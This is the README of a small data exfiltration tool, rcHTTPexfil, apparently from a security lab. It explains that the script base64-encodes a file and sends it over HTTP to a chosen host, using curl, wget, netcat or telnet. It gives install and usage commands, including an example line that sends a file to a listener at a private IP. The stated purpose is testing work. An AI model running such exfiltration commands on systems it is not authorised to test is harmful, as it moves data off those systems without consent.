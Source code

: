 #######################################################################
Red Crow Labs 
#######################################################################

rcHTTPexfil is a shell script which takes in a text file, base64 encodes it, and attempts to transmit it to a specified IP and Port using HTTP. This tool tries various methods for transmitting including curl, wget, netcat, and telnet.

This is a basic and insecure data exfiltration tool which is useful when doing testing on a system and there is a need to copy data from it to a central host for analysis.

========================================================================= INSTALL:

git clone https://github.com/redcrowlab/rcHTTPexfil.git

========================================================================= USAGE:

chmod 755 rcHTTPexfil.sh
./rcHTTPexfil.sh [filename] [URL] [Port]

example:

./rcHTTPexfil.sh surveyData.txt http://192.168.1.10 8080

On the listener side do:

python rcHTTPexfilListener.py 192.168.1.10 8080

========================================================================= NOTE:

Requires python on the listener host and curl, wget, netcat, or telnet on the transmitting host.